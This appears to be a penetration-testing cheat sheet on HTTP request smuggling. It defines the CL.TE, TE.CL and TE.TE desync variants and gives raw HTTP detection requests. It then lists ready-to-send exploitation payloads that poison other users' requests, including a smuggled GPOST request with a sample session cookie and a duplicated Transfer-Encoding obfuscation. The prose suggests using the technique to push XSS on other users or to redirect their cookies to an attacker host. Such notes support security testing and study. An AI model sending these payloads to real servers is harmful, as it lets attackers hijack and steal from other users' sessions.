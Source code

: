```yaml
---
title: Request Smuggling
description: HTTP Request Smuggling atttacks
---
```



## Notation

- **CL.TE**: front-end server uses the `Content-Length` header and the back-end server server uses the `Transfer-Encoding` header.
- **TE.CL**: front-end server uses the `Transfer-Encoding` header and the back-end server server uses the `Content-Length` header.
- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


## Detection

Please **FIRST** try detecting **CL.TE** as if it is vulnerable to it, the **TE.CL** detection payload wil poison the socket and cause a lot of harm

### **CL.TE** detection

Send the following request:

```http
POST /about HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: frontend response
 - TE.CL: frontend response
 - **CL.TE: timeout** (_vulnerable_)

Only after confirming no **CL.TE** desync attacks can be performed you can check the next variant:


### **TE.CL** detection

Send the following request:

```http
POST /about HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: backend response
 - **TE.CL: timeout** (_vulnerable_)
 - _CL.TE: socket poison_ 💀




## Exploitation


### CL.TE

You can just _poison_ legitimate requests. For example the following request would result on the next user doing a `SMUGGLEDPOST` request:

```http
POST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

You can Actually change other users requests, so you can force them  to execute a XSS for example. It is also common for web proxies to hapily redirect users based on the host header so you could redirect people to your collaborator with their cookies by just specifiying a host header for the users.



### TE.CL


```http
POST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=fnJJc90vRfPmIYHB3xmzTYJyhLx5JhGO
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

a=
0


```



## TE.TE into CL.TE


```http
POST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: cow
Transfer-Encoding: chunked

0

G
```

## HTTP2



